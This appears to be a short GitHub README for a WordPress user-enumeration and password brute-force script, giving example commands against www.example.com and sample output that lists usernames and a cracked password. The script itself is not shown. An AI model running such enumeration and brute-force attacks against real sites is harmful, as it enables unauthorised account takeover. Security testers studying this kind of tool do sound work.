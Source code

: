 # Wordpress-Bruteforce



Wordpress user enumeration and password bruteforce.

#User Enumeration:

$ ./wpbrute.sh --url=www.example.com

[+] Username or nickname enumeration
admin
testuser


#Password Bruteforce:

$ ./wpbrute.sh --url=www.example.com --user=admin --wordlist=wordlist.txt

[+] Bruteforcing user [admin]
123456
test123
123test123
The password is: 123test123
</pre>
